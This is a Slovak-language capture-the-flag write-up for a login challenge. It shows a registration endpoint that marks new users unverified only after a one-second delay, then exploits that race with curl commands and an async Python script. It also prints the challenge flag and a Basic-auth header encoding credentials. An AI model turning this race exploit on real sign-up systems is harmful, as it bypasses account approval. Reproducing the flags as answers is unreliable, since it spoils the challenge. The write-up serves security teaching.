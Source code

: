 # Zadanie

EN: The secret website is protected by a login page. Can you find a way to get in?

SK: Tajná webová stránka je chránená prihlasovacou stránkou. Dokážeš nájsť spôsob, ako sa dostať dovnútra?

## Riešenie

Z predošlej úlohy máme teda meno aj heslo...Autentikujem sa a vidíme akúsi stránku.. Z index.js vidíme rôzne api koncové body, zadanie hovorí dostať sa dovnútra, chápem teda, že nestačí len autentikácia, lebo stránka obsahuje register a login formulár...

Vytvoríme teda používateľa, dostaneme alert 

> Welcome to the Dark Stable. The Council will judge your worthiness.

Pri pokuse o login však dostaneme

> The Dark Council has not approved you yet

```javascript
async function sendEmailToAdministrator(userId, username) {
  // TODO: Implement email sending. We'll just sleep until then.
  await sleep(1000);
  console.log(`🦄 Dark Council notified about new subject: ${username}`);
  return true;
}

app.post("/api/register", async (req, res) => {
  try {
    const { username, password, email } = req.body;

    const { rows } = await dbAsync.query(
      "INSERT INTO users (username, password, email) VALUES ($1, $2, $3) RETURNING id",
      [username, password, email]
    );

    const userId = rows[0].id;
    await sendEmailToAdministrator(userId, username);

    await dbAsync.query("UPDATE users SET verified = false WHERE id = $1", [
      userId,
    ]);

    return res.json({
      success: true,
      message:
        "Welcome to the Dark Stable. The Council will judge your worthiness.",
    });
  } catch (err) {
    if (err.constraint === "users_username_key") {
      return res.status(400).json({ error: "Username already exists" });
    }
    res.status(500).json({ error: "Registration failed", msg: err.message });
  }
});
```

Pozornému oku však neujde, že server pri registrácii najprv vykoná činnosť, pri ktorej systém 1s nič nerobí a až potom nastaví používateľovi status verified na hodnotu false. Takže pokiaľ stihneme poslať request na login do jednej sekundy od registrácie, malo by nás pustiť dovnútra. Tu si to však bude vyžadovať ideálne nejaký skript alebo ručne spustené dva curl requesty v dvoch terminal oknách a rýchle ruky.

```bash
curl -X POST http://exp.cybergame.sk:7000/secretbackend/api/register -H "Authorization: Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9" -H "Content-Type: application/json" -d '{"username": "pony", "password":"pony", "email":"pony@pony.pony"}'
a hneď rýchlo
curl -X POST http://exp.cybergame.sk:7000/secretbackend/api/login -H "Authorization: Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9" -H "Content-Type: application/json" -d '{"username": "pony", "password":"pony"}'
ideálne dve terminal okná
```

prípadne python skript, ale ideálne asynchrónne, pretože pri pokusoch odišla login požiadavka vždy až po viac ako sekunde (pomalý python asi :D )

```python
import httpx
import asyncio
from datetime import datetime

def log(msg):
    print(f"[{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')[:-3]}] {msg}")

headers = {
    "Authorization": "Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9",
    "Content-Type": "application/json"
}

data_register = {
    "username": "pony",
    "password": "pony",
    "email": "pony@pony.pony"
}

data_login = {
    "username": "pony",
    "password": "pony"
}

async def send_register(client):
    log("➡️  [REGISTER] Posielam POST /register")
    resp = await client.post("http://exp.cybergame.sk:7000/secretbackend/api/register",
                             json=data_register, headers=headers)
    log(f"✅ [REGISTER] {resp.status_code}")
    print(resp.text)
    log("✅ [REGISTER] Hotovo\n")

async def send_login(client, delay=0.3):
    await asyncio.sleep(delay)
    log(f"➡️  [LOGIN] Posielam POST /login po {int(delay * 1000)} ms")
    resp = await client.post("http://exp.cybergame.sk:7000/secretbackend/api/login",
                             json=data_login, headers=headers)
    log(f"✅ [LOGIN] {resp.status_code}")
    print(resp.text)
    log("✅ [LOGIN] Hotovo")

async def main():
    async with httpx.AsyncClient() as client:
        # Spustíme register a login súčasne, login sa oneskorí o 300ms
        await asyncio.gather(
            send_register(client),
            send_login(client, delay=0.3)
        )

asyncio.run(main())
```

Výstup:

```
[2025-04-10 21:32:33.478] ➡️  [REGISTER] Posielam POST /register
[2025-04-10 21:32:33.794] ➡️  [LOGIN] Posielam POST /login po 300 ms
[2025-04-10 21:32:33.830] ✅ [LOGIN] 200
{"success":true,"welcome_msg":"Access granted. The light has no power here. You walk the path of the unseen, where only those who understand the night may tread. Tread carefully, for even the darkness has its watchers… SK-CERT{r4c3_4g41n5t_th3_l1ght_4nd_w1n_w1th_th3_p0w3r_0f_th3_n1ght}"}
[2025-04-10 21:32:33.832] ✅ [LOGIN] Hotovo
[2025-04-10 21:32:34.540] ✅ [REGISTER] 200
{"success":true,"message":"Welcome to the Dark Stable. The Council will judge your worthiness."}
[2025-04-10 21:32:34.542] ✅ [REGISTER] Hotovo
```

## Vlajka

```
SK-CERT{r4c3_4g41n5t_th3_l1ght_4nd_w1n_w1th_th3_p0w3r_0f_th3_n1ght}
```
